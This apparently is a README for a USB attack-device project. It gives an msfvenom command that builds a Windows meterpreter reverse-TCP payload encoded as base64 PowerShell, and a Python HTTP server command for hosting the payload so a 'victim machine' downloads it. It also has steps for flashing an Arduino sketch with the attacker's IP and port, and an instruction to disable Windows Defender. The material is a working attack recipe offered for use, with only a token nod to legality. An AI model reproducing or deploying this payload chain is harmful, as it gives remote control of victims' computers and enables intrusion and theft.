 # Metasploit Download

Throughout this tutorial I will refer to `X.X.X.X` and `XXXX`. When you see `X.X.X.X` you should replace it with your IP address. When you see `XXXX` you should replace it with your chosen port. The default hacker port is `4444`.

Please note that Windows Defender will stop this script from running. Windows Defender must be disabled for this script to work.

## Creating Payload

You must have the [metasploit-framework](https://github.com/rapid7/metasploit-framework) in order for this to work. Installed by default in Kali Linux.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=X.X.X.X LPORT=XXXX -f exe -e cmd/powershell_base64 -o winner.exe.b64
```

## Hosting Payload

Must have Python installed in order for this to work. This creates a local server on your device that the victim machine can download from.

```bash
python -m http.server XXXX
```

## Programming USB

Open [metasploit-download.ino](metasploit-download.ino), go to line 24 and insert your IP address and port. Then upload your script to the USB. Insert __responsibly and legally__ please!

